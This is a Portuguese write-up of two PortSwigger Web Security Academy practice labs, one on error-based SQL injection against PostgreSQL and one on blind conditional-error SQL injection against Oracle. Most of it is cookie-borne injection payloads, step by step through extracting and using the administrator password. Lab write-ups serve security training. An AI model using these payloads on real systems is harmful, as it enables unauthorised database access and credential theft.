# PortSwigger Web Security Academy — SQL Injection (Practitioner)

Writeup de dois labs práticos de **SQL Injection** resolvidos na Web Security Academy, usando Burp Suite.

---

## Lab 1 — Visible error-based SQL injection

**Categoria:** SQL injection → Blind → Lab
**Nível:** Practitioner
**Objetivo:** vazar a senha do usuário `administrator` através de mensagens de erro verbosas retornadas pela aplicação, e logar com a conta.

### Contexto

A aplicação usa um cookie `TrackingId` para analytics, e monta uma query SQL com o valor desse cookie. A query não retorna resultados na tela, mas **erros de SQL são exibidos de forma detalhada** — o que permite vazar dados através das mensagens de erro.

### Passo a passo

**1. Capturar a requisição com o cookie `TrackingId`**

No Burp, em *Proxy > HTTP history*, localizei uma requisição `GET /` contendo o header `Cookie: TrackingId=...` e enviei para o Repeater.



**2. Confirmar a injeção**

Testei primeiro com uma aspa simples (gera erro) e depois com `AND 1=CAST((SELECT 1) AS int)--` para validar sintaxe:

```
Cookie: TrackingId=xyz' AND 1=CAST((SELECT 1) AS int)--
```

Resposta `200 OK`, sem erro — a injeção é válida.




**3. Buscar usernames da tabela `users`**

```
Cookie: TrackingId=xyz' AND 1=CAST((SELECT username FROM users) AS int)--
```

Como a subquery pode retornar mais de uma linha, a aplicação devolve um erro 500:

> `ERROR: more than one row returned by a subquery used as an expression`




**4. Limitar a 1 linha**

```
Cookie: TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

> ⚠️ Importante: removi o valor original do cookie (`xyz`) para não estourar o limite de caracteres e truncar a query.

Primeira tentativa truncou a query por excesso de caracteres:



Ao encurtar o payload, o erro vazou o primeiro username:

> `ERROR: invalid input syntax for type integer: "administrator"`



**5. Vazar a senha do `administrator`**

```
Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

> `ERROR: invalid input syntax for type integer: "mlr4meaqu04jqzo5gnl0b"`



**6. Login**

Usei as credenciais vazadas em *My account*:
- **Usuário:** `administrator`
- **Senha:** `mlr4meaqu04jqzo5gnl0b`



### Técnica utilizada
`CAST()` de uma subquery para `int` força o banco a tentar converter o resultado da query — como o valor não é numérico, o erro retornado pela aplicação acaba expondo o próprio dado da subquery.

---

## Lab 2 — Blind SQL injection with conditional errors

**Categoria:** SQL injection → Blind → Lab
**Nível:** Practitioner
**Banco:** Oracle
**Objetivo:** extrair a senha do `administrator`, caractere por caractere, usando apenas a presença/ausência de erro HTTP 500 como sinal binário (blind).

### Contexto

Diferente do Lab 1, aqui **a aplicação não retorna o conteúdo do erro** — ela apenas responde com status `200 OK` (condição falsa) ou `500 Internal Server Error` (condição verdadeira). É uma técnica **blind baseada em erro condicional**.

### Passo a passo

**1. Requisição base e confirmação da injeção**

```
Cookie: TrackingId=xyz'
```
→ erro. Depois:
```
Cookie: TrackingId=xyz''
```
→ `200 OK`, confirma que o erro era causado pela aspa não fechada.




**2. Identificar o banco de dados (Oracle)**

```
Cookie: TrackingId=xyz'||(SELECT '' FROM dual)||'
```
`200 OK` → a tabela `dual` existe, confirmando banco **Oracle**.



**3. Confirmar existência da tabela `users`**

```
Cookie: TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```
`200 OK` → tabela existe.



**4. Testar condição booleana via erro forçado**

A técnica usa `CASE WHEN` + divisão por zero (`1/0`) para forçar erro apenas quando a condição é verdadeira:

```
Cookie: TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
→ `500` (condição verdadeira gera erro)

```
Cookie: TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
→ `200 OK` (condição falsa, sem erro)



**5. Confirmar que o usuário `administrator` existe**

```
Cookie: TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
→ `500` → usuário existe.



**6. Descobrir o tamanho da senha**

Testando `LENGTH(password) > N` com valores crescentes:

```
Cookie: TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>10 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
→ `500` (senha tem mais de 10 caracteres)



```
Cookie: TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>20 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
→ `200 OK` (senha tem 20 ou menos)



Testando valores de 11 a 19 manualmente, todos deram `500` → **senha com exatamente 20 caracteres**.

**7. Extrair cada caractere com Burp Intruder**

Como testar caractere por caractere manualmente seria inviável (36 possibilidades × 20 posições), usei o **Intruder** com ataque *Sniper*:

```
Cookie: TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

- Payload position marcada no caractere testado (`§a§`)
- Payload list: `a-z` + `0-9` (36 valores, adicionados manualmente por ser Community Edition)




Para cada posição, bastava rodar o ataque e localizar a linha com **Status Code 500** — esse é o caractere correto.




Repeti o processo trocando o offset do `SUBSTR` de 1 até 20, alterando `SUBSTR(password, N, 1)` a cada rodada.

### Senha extraída

```
bdld7yminmgx0s6aitj0
```

**8. Login**

- **Usuário:** `administrator`
- **Senha:** `bdld7yminmgx0s6aitj0`

✅ Lab resolvido.

### Técnica utilizada
**Blind SQL injection via erro condicional**: ao invés de ler diretamente a resposta do banco (como no Lab 1), a aplicação só revela se uma condição é verdadeira ou falsa através da presença de erro HTTP (`500` vs `200`). Combinando `CASE WHEN` + `TO_CHAR(1/0)` com `SUBSTR()`, é possível extrair qualquer dado do banco bit a bit / caractere a caractere, de forma automatizada com o Intruder.

---

## Resumo comparativo

| | Lab 1 — Error-based | Lab 2 — Blind conditional errors |
|---|---|---|
| Banco | PostgreSQL | Oracle |
